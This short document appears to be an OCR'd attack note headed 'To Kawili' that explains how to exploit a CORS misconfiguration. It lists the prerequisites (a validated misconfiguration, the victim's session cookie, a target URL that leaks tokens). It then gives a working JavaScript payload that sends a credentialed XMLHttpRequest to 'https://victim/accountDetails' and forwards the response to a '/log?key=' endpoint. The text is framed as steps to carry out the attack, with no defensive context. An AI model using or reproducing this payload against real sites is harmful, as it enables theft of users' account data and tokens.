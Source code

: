 To Kawili:
=================================================

Cross Origin Resource Sharing:

*Attack is initiated by the attacker
*No need to send or social engineer victim 
*Once CORS exploitability is validated, send the following XMLHttp request:

Pre-requisite of attack:
1. CORS misconfiguration (validated through burp or curl)
2. You have session cookie of the victim (or check if this is required) 
3. You know the URL which has CORS misconfiguration and will give you sensitive information like tokens etc 



~~~~~~~~
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8

<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','https://victim/accountDetails',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='/log?key='+this.responseText;
   };
</script>
~~~~~~~~

